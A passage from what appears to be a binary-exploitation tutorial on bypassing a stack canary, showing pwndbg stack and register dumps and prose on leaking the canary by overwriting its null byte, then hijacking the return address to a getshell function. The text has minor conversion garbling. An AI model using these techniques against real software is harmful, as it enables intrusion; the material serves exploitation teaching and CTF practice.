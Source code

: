 ```asm
   0x557c8443aa35    je     0x557c8443aa3c



   0x557c8443aa37    call   0x557c8443a7c0

────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────

00:0000│ rsi rsp  0x7ffd97aa0410 ◂— 0x6161616161616161 ('aaaaaaaa')

... ↓

05:0028│          0x7ffd97aa0438 ◂— 0xb3012605fc402a61

06:0030│ rbp      0x7ffd97aa0440 —▸ 0x7ffd97aa0460 —▸ 0x557c8443aa80 ◂— push   r15

07:0038│          0x7ffd97aa0448 —▸ 0x557c8443aa6a ◂— mov    eax, 0

Breakpoint *(0x557c8443a000+0xA08)

pwndbg> canary

$1 = 0

canary : 0xb3012605fc402a00

pwndbg&gt;
```



Canary In the rbp - 0x8 position, it can be seen that the lower bit of the canary has been overwritten to 0x61, so as long as the 7 bits after &#39;a&#39; * (0x30 - 0x8 + 1) are received, plus the lowest bit &#39;\ 0&#39;, we will recover the canary of the program.


#### Override return address
With canary, you can overwrite the return address with the second stack overflow, and control the return address to the getshell function. Let&#39;s first look at the return address when there is no overflow.


```asm
0x000055dc43694a1e in ?? ()

LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA

──────────────────────────────────────────────────[ REGISTERS ]──────────────────────────────────────────────────

 RAX  0x7fff9aa3af20 ◂— 0x6161616161616161 ('aaaaaaaa')

 RBX  0x0

 RCX  0x7f206c6696f0 (__write_nocancel+7) ◂— cmp    rax, -0xfff

 RDX  0x60

 RDI  0x0

 RSI  0x7fff9aa3af20 ◂— 0x6161616161616161 ('aaaaaaaa')

 R8   0x7f206cb22700 ◂— 0x7f206cb22700

 R9   0x3e
```